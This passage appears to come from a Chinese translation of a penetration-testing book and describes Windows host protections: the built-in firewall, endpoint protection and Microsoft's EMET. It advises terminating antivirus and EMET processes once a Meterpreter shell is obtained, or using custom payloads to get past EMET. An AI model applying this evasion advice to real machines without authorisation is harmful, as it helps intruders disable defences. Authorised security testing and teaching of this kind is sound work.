我们已经看过 Windows7 防火墙，这是一个客户端的表示，但是服务器呢？我们将看一看 Windows2003 服务器进行比较。Windows Server 2003 中的命令相同。如果将服务器设置为独立服务器，那么您将看到与我们之前发现的类似的结果。但是，如果服务器没有某种形式的服务，这种情况并不常见，最常见的是文件共享服务，许多服务器都允许共享信息。以下屏幕截图显示了启用文件共享的 Windows Server 2003 示例：



我们已经研究了如果一个站点使用内置的 Windows 防火墙，那么该站点将有哪些保护措施，正如我们所发现的，这可能也将给测试带来挑战。

## 端点保护

我们要研究的下一种保护类型是端点保护。我们在前面看到了一个示例，因此我们在此仅简要介绍主题。需要记住的重要一点是，所有这些保护通常都有一些必须允许通过的内容，在测试中，我们的任务是尝试发现这些内容并揭示其弱点。我们查看了 Symantec 工具，发现如果我们使用一个带有签名的标准负载，那么我们很可能会被检测到。如果我们在一台受保护的机器上得到一个 shell，那么只需识别服务，然后终止它。这一切都可以使用 metasploit 工具完成，只要我们选择 MeterMeter 作为有效负载。

## 增强缓解体验工具包

在撰写本书时，微软提供的增强缓解体验工具包（EMET）工具可能是您在机器上遇到的最难的工具之一。此保护的部署仍处于初级阶段，但如果您在测试中遇到此保护，则很难绕过它。这也是微软开始支持“Bugs for Bounty”概念的原因之一，在这个概念中，微软将为在其最新操作系统中发现的软件缺陷付费。

在撰写本书时，EMET 的当前版本是 4.0。如果你遇到一台受 EMET 保护的机器，你将不得不想出定制的有效载荷以及其他方法来尝试绕过它，但祝你好运！随着 EMET 迭代的不断成熟，它将越来越难以通过。目标是在获得访问权限后停止 EMET 进程，然后执行攻击；否则，请使用自定义有效负载，并希望您可以绕过 EMET 保护。

我的笔记本电脑上的 EMET 配置示例如以下屏幕截图所示：



如之前的屏幕截图所示，在此配置中，有三个应用已添加到 EMET 工具中。这些应用将在加垫片的环境中运行，以防止它们受到危害。EMET 工具还有许多应用已设置为监视。

以下屏幕截图显示了其中一些示例：


您还可以添加需要受 EMET 工具保护的应用。要查看用户添加了哪些应用，可以在命令提示窗口中键入以下内容：

```
C:\Program Files (x86)\EMET\EMET_conf --list

```

此命令将显示已添加且当前受 EMET 工具保护的应用。以下屏幕截图显示了一个示例：


如前一个屏幕截图所示，这台机器正在 Adobe Acrobat、Internet Explorer 和 Skype 上使用 EMET。这是一个挑战，如果您在测试中遇到 EMET，您的成功将取决于管理员如何配置它。

# 总结

在本章中，我们讨论了测试平面和内部网络的过程。我们发现，这意味着我们没有必须穿过的过滤器或层来攻击目标。虽然这是一件好事，但我们也讨论了这些机器将有许多保护措施。我们还回顾了漏洞扫描程序在内部测试方面所起的作用。

在介绍了不同的基于主机的保护之后，我们对它们进行了更详细的研究，在某些情况下，我们尝试了多种不同的技术来绕过可能遇到的主机上的不同保护。具体来说，我们查看了主机防火墙和 UAC 设置及其对测试结果的影响。

当我们研究了主机防火墙和 UAC 之后，我们继续讨论，并简要地研究了可能对我们的测试造成挑战的其他端点保护。

最后，我们以 EMET 工具可能为我们的测试带来的挑战来结束这一章。

本章到此结束。现在，您已经回顾了在测试平面网络和内部网络时可能面临的一些挑战。接下来，我们将在评估服务器和服务的弱点时介绍测试方法。